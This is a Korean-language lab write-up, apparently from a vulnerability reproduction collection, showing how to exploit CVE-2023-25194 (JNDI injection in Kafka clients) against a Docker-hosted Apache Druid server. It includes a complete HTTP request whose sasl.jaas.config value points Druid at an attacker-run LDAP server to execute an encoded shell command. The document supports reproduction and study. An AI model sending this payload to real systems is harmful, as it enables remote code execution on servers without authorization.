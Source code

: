 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

Apache Kafka는 오픈 소스 분산 이벤트 스트리밍 플랫폼으로, 실시간 데이터 스트리밍과 처리에 사용되는 플랫폼입니다. Kafka 클라이언트는 Apache Kafka로부터 메시지를 생성하고 소비할 수 있는 Java 라이브러리 집합입니다.

버전 3.3.2 이전의 Apache Kafka 클라이언트에서 JNDI 삽입 문제가 있습니다. 만약 공격자가 어떤 연결자(Kafka 클라이언트)의 `sasl.jaas.config` 속성을 `com.sun.security.auth.module.JndiLoginModule`로 설정할 수 있다면, 공격자는 서버가 공격자의 LDAP 서버에 연결하도록 할 수 있습니다. 이렇게 하면 서버가 LDAP 응답을 역직렬화하게 되고, 공격자는 Kafka 연결 서버에서 java 역직렬화 가젯 체인을 실행하기 위해 LDAP 응답을 사용할 수 있습니다. 결과적으로, 공격자는 클래스 경로에 가젯이 있는 경우 신뢰할 수 없는 데이터의 무제한 역직렬화 또는 RCE 취약점을 유발시킬 수 있습니다.

이 문제는 Java 라이브러리에서 발생하므로, kafka-clients 라이브러리를 사용하는 실제 소프트웨어를 찾아야 합니다.

이 소프트웨어는 Apache Druid이며, Apache Druid은 kafka-clients 라이브러리를 사용하여 그 중 하나의 데이터 원본에 연결합니다. 이 안내서는 Apache Druid 서버에서 CVE-2023-25194를 어떻게 악용하는지를 보여줍니다.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 취약한 환경

Apache Druid server를 실행하기 위해 아래 명령을 실행하십시오. 이 명령은 kafka-clients 3.3.1에 종속된 Apache Druid 25.0.0 서버를 시작합니다.

```
docker compose up -d
```

서버가 시작되면 Apache Druid의 홈페이지를 `http://your-ip:8888`에서 볼 수 있습니다.

## 악용 공격

먼저, [JNDIExploit](https://github.com/vulhub/JNDIExploit)을 사용하여 악의적인 JNDI 서버를 시작하십시오:

![](1.png)

이 도구에서 악의적인 URL을 얻게 될 것이며, 이를 수정하세요.

악의적인 LDAP URL을 다음 요청에 붙여넣고 보내세요.

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

보시다시피, `id > /tmp/success`가 성공적으로 실행되었습니다.

![](3.png)
